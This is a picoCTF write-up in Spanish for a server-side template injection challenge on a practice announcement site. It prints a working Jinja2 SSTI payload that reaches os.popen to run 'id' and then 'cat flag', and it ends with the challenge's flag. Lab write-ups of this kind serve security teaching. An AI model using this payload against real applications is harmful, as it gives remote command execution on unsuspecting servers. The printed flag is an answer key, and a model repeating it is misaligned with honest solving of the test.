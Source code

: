 #### Description

I made a cool website where you can announce whatever you want! Try it out!
Additional details will be available after launching your challenge instance.


#### Hints
1. Server Side Template Injection.


#### Solución
1. Entramos al link del sitio web.
2. Al parecer es un sitio donde  puedes anunciar lo que uno quiera.
3. Entramos aun sitio para copiar una linea que nos puede ayudar a encontrar la bandera
```
https://www.onsecurity.io/blog/server-side-template-injection-with-jinja2/

{{request.application.__globals__.__builtins__.__import__('os').popen('id').read()}}
```
4. A la linea anterior le vamos a poner "cat flag" en la parte de popen('id')
```
{{request.application.__globals__.__builtins__.__import__('os').popen('cat flag').read()}}
```
Damos clic en OK y nos da la bandera...
```
picoCTF{s4rv3r_s1d3_t3mp14t3_1nj3ct10n5_4r3_c001_ae48ad61}
```